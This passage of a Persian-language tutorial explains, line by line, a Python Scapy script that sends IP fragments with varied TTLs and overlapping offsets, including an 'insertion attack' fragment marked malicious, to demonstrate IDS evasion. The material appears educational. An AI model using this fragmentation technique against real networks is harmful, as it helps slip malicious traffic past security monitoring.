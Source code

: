 ```python
    print(f"Fragment 1: TTL={packet1[IP].ttl}, Offset={packet1[IP].frag}, Flags={packet1[IP].flags}")
    print(f"Fragment 2: TTL={packet2[IP].ttl}, Offset={packet2[IP].frag}, Flags={packet2[IP].flags} (MALICIOUS)")
    print(f"Fragment 3: TTL={packet3[IP].ttl}, Offset={packet3[IP].frag}, Flags={packet3[IP].flags}")
    
    send(packet1, verbose=0)
    time.sleep(0.5)
    send(packet2, verbose=0)
    time.sleep(0.5)
    send(packet3, verbose=0)
```

**خط به خط:**
- **خط 2**: چاپ عنوان حمله Insertion
- **خط 3-4**: تعریف محتوای مخرب و مشروع
- **خط 6**: ساخت پکت IP پایه با شناسه 12345
- **خط 8-12**: ساخت قطعه اول (مشروع) با offset=0 و flag MF (More Fragments)
- **خط 14-18**: ساخت قطعه دوم (مخرب) با TTL پایین و همان offset
- **خط 20-24**: ساخت قطعه سوم (ادامه مشروع) با offset=3
- **خط 26-28**: چاپ مشخصات هر قطعه
- **خط 30-34**: ارسال قطعات با فاصله زمانی

## بخش اصلی برنامه

```python
if __name__ == "__main__":
    try:
        print("\n1. Different TTL values per fragment")
        send_fragmented_with_different_ttl()
        time.sleep(2)
        
        print("\n2. All fragments with TTL=1")
        send_fragmented_with_ttl_1()
        time.sleep(2)
        
        print("\n3. Normal fragmentation (comparison)")
        send_normal_fragmented()
        time.sleep(2)
        
        print("\n4. Insertion attack demonstration")
        demonstrate_insertion_attack()
    except Exception as e:
        print(e)
```

**خط به خط:**
- **خط 1**: بررسی اجرای مستقیم فایل
- **خط 2**: شروع بلوک try برای مدیریت خطا
- **خط 3-5**: اجرای تست TTL متفاوت و تأخیر 2 ثانیه
- **خط 7-9**: اجرای تست TTL=1 و تأخیر
- **خط 11-13**: اجرای قطعه‌بندی عادی و تأخیر
- **خط 15-16**: اجرای حمله Insertion
- **خط 17-18**: مدیریت خطاهای احتمالی

## کاربرد کد

این کد چهار سناریوی مختلف را نمایش می‌دهد:

1. **TTL Manipulation**: تنظیم TTL متفاوت برای هر قطعه
2. **TTL Expiration**: ارسال همه قطعات با TTL=1
3. **Normal Fragmentation**: قطعه‌بندی عادی برای مقایسه
4. **Insertion Attack**: حمله درج محتوای مخرب
